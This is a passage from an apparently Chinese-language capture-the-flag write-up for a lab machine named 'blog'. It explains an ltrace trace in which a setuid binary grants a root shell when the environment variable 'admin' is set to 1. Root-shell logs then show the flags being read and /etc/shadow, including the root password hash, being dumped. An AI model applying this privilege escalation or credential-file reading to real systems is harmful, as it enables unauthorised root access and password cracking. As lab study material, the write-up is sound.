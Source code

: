 3. `getenv("admin") = "1"` 表示程序在运行时调用了`getenv`函数来获取环境变量"admin"的值，并且该环境变量的值为"1"。

4. `setuid(0) = 0` 表示程序在运行时调用了`setuid`函数，将用户ID设置为0，即切换为root用户，并且这一步成功了。

5. `system("/bin/bash"` 表示程序在运行时调用了`system`函数，执行了一个命令`/bin/bash`，即启动一个新的Bash shell。由于之前已经成功切换为root用户，因此这一步将以root权限启动一个新的Bash shell。

这个`ltrace`输出显示了`/usr/sbin/checker`程序在运行时尝试获取名为"admin"的环境变量的值，并找到了该环境变量，其值为"1"。然后程序使用`setuid`函数将用户ID设置为0，即切换为root用户，然后以root权限启动了一个新的Bash shell。由于你是以root用户身份登录并运行`ltrace`，所以`setuid(0)`调用成功。

```
root@blog:/var/www/wordpress# cd /root
cd /root
root@blog:/root# ls
ls
root.txt
root@blog:/root# cat root.txt
cat root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
root@blog:/root# find / -name user.txt 2>/dev/null
find / -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/root# cat /home/bjoel/user.txt
cat /home/bjoel/user.txt
You won't find what you're looking for here.

TRY HARDER
root@blog:/root# cat /media/usb/user.txt
cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

```
root@blog:/root# cat /etc/shadow
cat /etc/shadow
root:$6$zdXcsFNB$WV2Erzzi.p2q6L8mVTs1ko7qHxTHlmkfh4udejwYnrUq2uXm1OouYvkH1a35tOTjc9Sw01.fXG1YxfTY06Bbp/:18409:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18407:0:99999:7:::
```